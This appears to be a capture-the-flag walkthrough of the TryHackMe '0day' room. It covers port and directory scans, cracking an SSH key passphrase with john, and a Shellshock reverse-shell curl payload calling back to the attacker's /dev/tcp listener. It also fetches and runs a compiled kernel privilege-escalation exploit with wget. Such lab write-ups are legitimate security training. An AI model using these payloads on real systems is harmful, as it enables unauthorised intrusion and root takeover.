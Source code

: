 # 0day

**Room Link:** [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>





This appeared to be a rabbit hole but I found a key and was able to bruteforce the password for it.

<figure><img src="../../.gitbook/assets/image (427).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (428).png" alt=""><figcaption></figcaption></figure>

I found a cgi file. i tried checking if it was vulnerable to shellshock which wasn't working but it was vulnerable.&#x20;

**Kali**

```
gobuster dir -u http://$VICTIM/cgi-bin/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,cgi
```

<figure><img src="../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Link:** [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

**Kali#1**

```
nc -lvnp 4242
```

**Kali #2**

```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/$KALI/4242 0>&1' http://$VICTIM/cgi-bin/test.cgi 
```

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Privilege Escalation

**Victim**

```
uname -a 
```

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c
gcc 37292.c -o exploit
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

The exploit didn't work as it's complaining that it can't create dynamic library

**Victim**

```
cd /tmp/
wget http://10.10.91.55:81/exploit
chmod +x exploit
./exploit
```

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

To fix this we just had to export the binpath from the machine

**Victim**

```
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
./exploit
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>



